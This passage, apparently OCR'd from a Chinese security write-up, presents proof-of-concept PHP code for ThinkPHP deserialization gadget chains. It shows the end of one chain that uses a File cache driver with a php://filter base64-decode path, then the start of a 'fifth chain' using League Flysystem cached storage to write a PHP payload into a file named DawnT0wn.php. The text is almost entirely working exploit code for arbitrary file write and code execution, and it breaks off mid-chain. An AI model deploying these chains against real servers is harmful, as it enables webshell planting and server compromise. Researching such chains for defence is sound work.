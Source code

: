 ```
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {
    abstract class Driver
    {
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
        protected $options = [
            'expire'        => 1,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'php://filter/write=convert.base64-decode/resource=',
            'hash_type'     => 'md5',
            'data_compress' => false,
            'tag_prefix'    => 'tag:',
            'serialize'     => ['trim']
        ];
    }
}

```

# 第五条链子

POC

```
<?php

namespace League\Flysystem\Cached\Storage;

abstract class AbstractCache
{
    protected $autosave = false;
    protected $cache = ['<?php phpinfo();?>'];
}


namespace League\Flysystem\Cached\Storage;

class Adapter extends AbstractCache
{
    protected $adapter;
    protected $file;

    public function __construct($obj)
    {
        $this->adapter = $obj;
        $this->file = 'DawnT0wn.php';
    }
}


namespace League\Flysystem\Adapter;
```